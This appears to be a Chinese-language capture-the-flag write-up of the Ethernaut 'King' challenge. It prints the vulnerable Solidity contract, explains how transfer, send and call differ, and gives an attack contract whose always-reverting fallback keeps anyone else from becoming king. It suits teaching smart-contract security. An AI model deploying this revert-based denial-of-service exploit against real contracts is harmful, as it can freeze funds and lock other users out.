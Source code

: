 ## 0x01 Task

```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

谁给的钱多谁就能成为 King，并且将前任 King 付的钱归还。当提交 instance 时，题目会重新夺回 King 的位置，需要解题者阻止其他人成为 King。

## 0x02 Solution

首先需要讨论一下 Solidity 中几种转币方式。

```javascript
<address>.transfer()
```

- 当发送失败时会 `throw;` 回滚状态
- 只会传递部分 Gas 供调用，防止重入（reentrancy）

```javascript
<address>.send()
```

- 当发送失败时会返回 false
- 只会传递部分 Gas 供调用，防止重入（reentrancy）

```javascript
<address>.call.value()()
```

- 当发送失败时会返回 false
- 传递所有可用 Gas 供调用，不能有效防止重入（reentrancy）

回头再看一下代码，当我们成为 King 之后，如果有人出价比我们高，会首先把钱退回给我们，使用的是 `transfer()`。上面提到，当 `transfer()` 调用失败时会回滚状态，那么如果合约在退钱这一步骤一直调用失败的话，代码将无法继续向下运行，其他人就无法成为新的 King。

查看最高出价：

```javascript
fromWei((await contract.prize()).toNumber())
```

攻击合约：

```javascript
pragma solidity ^0.4.18;

contract Attack {
    address instance_address = instance_address_here;

    function Attack() payable{}

    function hack() public {
        instance_address.call.value(1.1 ether)();
    }

    function () public {
        revert();
    }
}
```

或

```java
contract.sendTransaction({value: toWei(1.01)})
```

